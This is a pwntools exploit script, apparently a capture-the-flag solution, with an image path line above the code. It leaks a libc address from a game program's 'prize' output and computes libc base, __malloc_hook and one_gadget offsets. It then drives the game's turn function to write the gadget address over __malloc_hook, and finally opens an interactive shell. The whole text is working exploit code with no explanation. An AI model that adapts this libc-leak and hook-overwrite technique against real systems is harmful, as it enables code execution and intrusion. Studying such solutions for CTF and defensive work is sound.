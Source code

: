 ```python
p.sendlineafter("10): ", "10")
for i in range(10):
    p.sendlineafter(": ", str(i))

change_maps()
# turn(6)
p.sendlineafter(": ", "n")
p.sendlineafter("): ", str(6))
p.recvline()
p.recvuntil("prize: 0x")

one  = [0xe6c7e, 0xe6c81, 0xe6c84]
libc_base = int(p.recvuntil("\n", drop=True), 16) - libc.sym["puts"]
malloc_hook = libc_base + libc.sym["__malloc_hook"] - 4
og = libc_base + one[1]
leak("libc_base",libc_base)
leak("malloc_hook", malloc_hook)
p.sendlineafter("): ", "n")   

turn(1) # 1
turn(1) # 2
for i in range(10-3):
    turn(0) # 3 4 5 6 7 8 9
    
turn(4) # 0
turn(0) # 1
turn(0) # 2
for i in range(10-3):
    turn(1) # 3 4 5 6 7 8 9
    
turn(6, p64(malloc_hook)[0]) # 0
for i in range(1, 8):
    turn(3, p64(malloc_hook)[i]) # 1 2 3 4 5 6 7 
turn(0) # 8
turn(4) # 9

turn(5, '\xaa') # 0
turn(0, '\xbb') # 1 
turn(0, '\xcc') # 2 
turn(0, '\xdd') # 3

for i in [4, 5, 6, 7]:
    turn(5, p64(og)[i-4])

turn(3, p64(og)[4]) # 8 --> [5]
turn(4, p64(og)[5]) # 9 --> [10]

for i in range(8): 
    turn(0)

turn(5) # 8
turn(0) # 9

p.sendlineafter(": ", "n")
p.sendlineafter("): ", str(5)) 

p.interactive()

```

